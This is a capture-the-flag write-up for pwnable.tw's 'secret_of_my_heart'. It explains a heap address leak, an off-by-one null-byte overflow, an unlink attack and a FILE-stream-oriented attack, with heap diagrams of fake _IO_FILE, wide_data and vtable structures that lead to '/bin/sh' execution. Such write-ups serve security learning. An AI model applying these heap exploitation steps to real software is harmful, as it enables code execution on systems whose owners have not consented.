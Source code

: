 # Pwnable tw - secret_of_my_heart 

First, check its protection info.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

We can simply see there are two vulnerabilites in the binary.

- In the ```add_secret``` the input of name without null byte, so we can leak ```heap address```
- After we input the ```secret```, it will add a null byte padding behind our payload. It will cause ```off by one null byte heap overflow```

After leaking heap address, we can launch unlink attack by making a fake pointer on the heap, so we will not revise the original pointer.

```
		0x00005615ddaf6030
 		------------------------------------------
secret[1] ->	|0x0000000000000000      0x0000000000000091|
fake fd,bk->	|0x00005615ddaf60c8      0x00005615ddaf60d0|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
		|0x4141414141414141      0x4141414141414141|
				
		 0x00005615ddaf60c0
		 ------------------------------------------ 
secret[2] ->	|0x0000000000000090      0x0000000000000100|
		|0x0000000000000000      0x0000000000000000|
fake ptr ->	|0x00005615ddaf6030      0x0000000000000000|
		|0x0000000000000000      0x0000000000000000|
		|0x0000000000000000      0x0000000000000000|
		        ...			...
```

After ```del_secret(2)```, we can simple leak ```libc``` by ```show_secret(1)```

However, It's difficult to overwrite ```_malloc_hook```. 
I decided to use```FILE stream oriented programming``` to solve it. ([source](http://blog.angelboy.tw/))

First, I cosolidate all the chunk on the heap. However, we still have secret[1] pointer. 
So, there is a overlap chunk at ```0x00005615ddaf6030```, and heap top at ```0x00005615ddaf6000```

Next, add three secret with size 0x40(```secret[0]```), 0x80(```secret[2]```), and 0x80(```secret[3]```), respectively.
Our goal is launching unsorted bin attack on secret[2] chunk. In the first chunk, we modify the secret[1] chunk header to 0x81. And secret[3] make our partial fake ```_IO_FILE```, ```vtable```, ```wide_date``` objects.

#### _IO_FILE structure
```
0x00:		 -----------------------------
		|        '/bin/sh\x00'        |
		 -----------------------------
		|                             |
		|                             |
		|           ......	       |
		|                             |
		|                             |
0xa0:		 -----------------------------
		|        wide_date ptr	       |
		 -----------------------------
		|            ...              |
		|            ...              |
0xc0:		 -----------------------------
		|            mode	       |
		 -----------------------------
		|            ...	       |
		 -----------------------------
		|            ...	       |
		 -----------------------------
		|          vtable ptr	       |
0xe0:		 -----------------------------
```
#### wide_data structure
```c
struct _IO_wide_data
{
  wchar_t *_IO_read_ptr;	/* Current read pointer */
  wchar_t *_IO_read_end;	/* End of get area. */
  wchar_t *_IO_read_base;	/* Start of putback+get area. */
  wchar_t *_IO_write_base;	/* Start of put area. */
  wchar_t *_IO_write_ptr;	/* Current put pointer. */
  wchar_t *_IO_write_end;	/* End of put area. */
  wchar_t *_IO_buf_base;	/* Start of reserve area. */
    ...
    ...
}
 
 ```

#### vtable structure
```c
struct _IO_jump_t
{
    JUMP_FIELD(_G_size_t, __dummy);
#ifdef _G_USING_THUNKS
    JUMP_FIELD(_G_size_t, __dummy2);
#endif
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
     ...
     ...
}
```

Then ```del_secret(1)``` and ```del_secret(2)```, since ```secret[1]``` size is fastbin size. 
```secret[1]``` will be append to ```fastbin[6]```, ```secret[2]``` will be added to ```unsorted bin```.

When we add a secret with size 0x78, will get original ```secret[1]``` overlaping with unsorted bin chunk.
Thus, we have full ```unsorted bin attack``` and ```FILE stream programming payload```

```
				    0x00005615ddaf6000
                                  ------------------------------------------
                secret[0] ->     |0x0000000000000000      0x0000000000000051|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
				
				    0x00005615ddaf6030
                                  ------------------------------------------
        original secret[1] ->    |0x0000000000000000      0x0000000000000081|
                                 |0x0000000000000000      0x0000000000000000|


				    0x00005615ddaf6050
                                  ------------------------------------------
secret[2], _IO_FILE object ->    |0x0068732f6e69622f      0x0000000000000061|
                                 |0x00007fcd76793b78      0x00007fcd76794510|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
				
				    0x00005615ddaf60e0
                                  ------------------------------------------
                 secret[3] ->    |0x0000000000000090      0x0000000000000090|
        fake wide_date ptr ->    |0x00005615ddaf6120      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000001      0x0000000000000000|
           fake vtable ptr ->    |0x0000000000000000      0x00005615ddaf6150|
                                 |0x0000000000000001      0x0000000000000002|
                                 |0x0000000000000003      0x0000000000000000|
                                 |0x0000000000000000      0x0000000000000000|
                                 |0x0000000000000000      0x00007fcd76415390|
                 top chunk ->    |0x0000000000000000      0x0000000000020e91|
```







